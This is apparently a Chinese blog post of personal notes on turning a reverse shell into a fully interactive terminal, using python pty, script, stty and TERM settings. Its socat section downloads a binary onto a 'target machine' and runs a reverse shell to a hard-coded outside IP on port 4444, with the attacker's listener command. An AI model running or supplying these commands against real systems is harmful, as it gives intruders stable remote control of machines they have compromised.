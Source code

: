 ```yaml
---
layout: post
toc: true
title: "「BASH」:谈谈完全交互式的终端"
author: Bin4xin
categories:
    - blog
tags:
    - BASH
    - 笔记
---
```


写在前面，本方法适用于在反弹shell后把shell提升为完全交互式shell，也是自己实战了一段时间后摸索出来的，记一下笔记

## 完美的交互式shell

### python

```bash
$ python -c "import pty; pty.spawn('/bin/bash')"
# 输入 Ctrl+Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
# or export TERM=xterm-256color
```

### srcipt based on bash

同样的，我在网上也找到另外一种方式：`script /dev/null/`这样：同理，也可以通过同样的方式获取到交互式shell：
```bash
script /dev/null
Ctrl-Z
stty raw -echo
fg
reset
```
这样我们在终端某个命令时，输入`ctrl+c`或者`ctrl+z`就不会直接中断shell。
这里转载搜到信息来进行展示，供大家参考：
```bash
stty -echo	#禁止回显，当在键盘上输入时，并不出现在屏幕上
stty echo 	#打开回显
stty raw 	#设置原始输入
stty -raw	#关闭原始输入
bg			#将一个在后台暂停的命令，变成继续执行
fg			#将后台中的命令调至前台继续运行
jobs		#查看当前有多少在后台运行的命令
ctrl+z 		#可以将一个正在前台执行的命令放到后台，并且暂停
clear  		#这个命令将会刷新屏幕，本质上只是让终端显示页向后翻了一页，如果向上滚动屏幕还可以看到之前的操作信息。
reset 		#这个命令将完全刷新终端屏幕，之前的终端输入操作信息将都会被清空
```
来源：<a href="https://saucer-man.com/information_security/233.html#cl-3">实现交互式shell的几种方式</a>

# socat

目标机

把socat上传到目标机器上或者直接下载
```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat

vuln_ip:
chmod +x /tmp/socat
./tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:47.52.233.92:4444
--
attack machine
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### stty行列数:)
有的时候终端写入的命令太长，而终端行列不够长来显示所以会导致命令重叠、错杂，我们可以用下面的方法来让我们用这个shell用的更舒服点；

先看看自己机器上的stty配置信息:
```bash
root@ubuntu20-free:~# stty -a
speed 9600 baud; rows 35; columns 148; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
`speed 9600 baud; rows 35; columns 148; line = 0;`这一段是我们所需要的信息；
```bash
rows 35; columns 148
配置我们的shell如下：
$ stty rows 35 cols 148
```

## 其他痛点
有的时候感觉terminal上太多命令了，用着用着会习惯性输入命令`clear`，然后你们就会看到如下现象：

```bash
# clear

TERM environment variable not set.

# set |grep TERM

TERM=dumb
```

如上，看term的配置信息，最后解决办法如下，设置term为`xterm`就可以了。

```bash
# export TERM=xterm

# set |grep TERM
TERM=xterm
_=TERM
```
之后就可以随意的clear清除命令辣！